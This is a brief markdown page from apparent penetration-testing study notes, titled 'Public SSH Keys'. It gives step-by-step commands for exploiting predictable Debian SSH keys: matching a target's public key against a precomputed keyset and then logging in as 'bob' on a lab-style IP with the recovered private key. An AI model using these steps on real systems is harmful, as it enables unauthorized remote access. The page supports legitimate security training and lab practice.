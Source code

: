 ```yaml
---
title: Public SSH Keys
parent: Common Exploits
layout: default
nav_order: 6
---
```


1. First go to your /etc/ssh/ssh_config and add the following (check 1st 7 chars of public key):`PubkeyAcceptedKeyTypes +ssh-dss`
2. Go to PublicKeyMatch folder(downloaded, https://github.com/g0tmi1k/debian-ssh).
3. First copy the first 40+ characters of the public key after the 1st 7 characters, then go to each and every folder (for eg 1024) and search manually using:`grep -lr ‘AAAAB3NzaC................................’`
4. Once you found the public key folder, use the following command to connect (without pub):`ssh -i f1fb2162a02f0f7c40c210e6167f05ca-16858 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=ssh-dss bob@10.11.1.136 -vv`
5. Check the oKexAlgorithms by matching to your nmap enumeration and change if required if cannot work. HostKeyAlgorithm use the first 7 chars.